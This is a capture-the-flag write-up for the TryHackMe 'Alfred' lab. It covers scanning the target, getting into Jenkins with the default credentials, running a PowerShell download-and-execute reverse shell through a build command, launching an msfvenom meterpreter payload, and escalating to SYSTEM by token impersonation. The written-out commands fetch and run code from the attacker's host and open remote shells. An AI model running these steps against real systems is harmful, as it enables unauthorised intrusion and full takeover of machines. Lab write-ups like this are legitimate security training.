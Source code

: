 
# TryHackMe - Alfred

## Recon Stage

Starting with an nmap of the target, we get:

```
┌──(kali㉿kali)-[~/TryHackMe/Alfred]
└─$ nmap -sV -Pn 10.10.6.87                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 11:16 EST
Nmap scan report for 10.10.6.87
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```

The webserver on port 80 seems static and uninteresting for the moment, so I go ahead and explore the webserver on port 8080 which seems to be running a version of Jensins:

![](2021-03-10-11-18-34.png)

Just trying the combination 'admin:admin' gave me access:

![](2021-03-10-11-19-50.png)

After looking into the 'project' project, I found that in their settings there is a build trigger that executes a batch command:

![](2021-03-10-11-23-51.png)

This is most likely going to be our attack vector

## Exploitation

As the target is running Windows, I will be using a reverse powershell (found [here](hhttps://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1))

I perform a wget for the powershell script and startup a python http server so the target can download the script from me:

![](2021-03-10-11-27-20.png)


I then enter the following bash code to execute a download request and invokation of the script:

``
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.3.207:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.3.207 -Port 4444
``

![](2021-03-10-11-29-19.png)

and start a netcat process listening on port 4444:

![](2021-03-10-11-30-26.png)


Back on the website, I save the new configuration and click 'Build Now'.

I am then given a reverse powershell:

![](2021-03-10-11-32-09.png)

I then navigate over to the C:/Users/ and see that there is a user named 'bruce'. On their Desktop holds the user flag.

## Switching Shells

Following with TryHackMe, I attempt to switch shells over to meterpreter to make priviledge escalation easier. To do this, I generated a meterpreter reverse shell payload using msfvenom:

``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.207 LPORT=4443 -f exe -o shell.exe``


I then started metasploit and setup my handler:

![](2021-03-10-11-39-58.png)

And then downloaded and executed the shell by executing the following commands on the target machine:

```
PS C:\Program Files (x86)\Jenkins\workspace\project>powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.9.3.207:8000/shell.exe', './shell.exe');"
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "shell.exe"
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

![](2021-03-10-11-46-26.png)

Great, we have our meterpreter shell now!

## Privilege Escalation

I start by checking privileges for the current user:

![](2021-03-10-11-49-22.png)

As we can see, SeImpersonatePrivilege is enabled for this user.

I return back into meterpreter and load the incognito library.

Checking what tokens are available using ``list_tokens -g`` I find that BUILTIN\Administrators is available. I attempt to impersonate this token:

![](2021-03-10-11-52-27.png)

I then find and migrate to a higher privilege process, such as services.exe:

![](2021-03-10-11-54-14.png)

This is because, whilst I may have a higher privileged token, I may not have such high permissions as Windows will look at my primary token initially and not the impersonated one.

And now we have SYSTEM access to this machine. I can simply navigate over to the restricted path and find the root flag.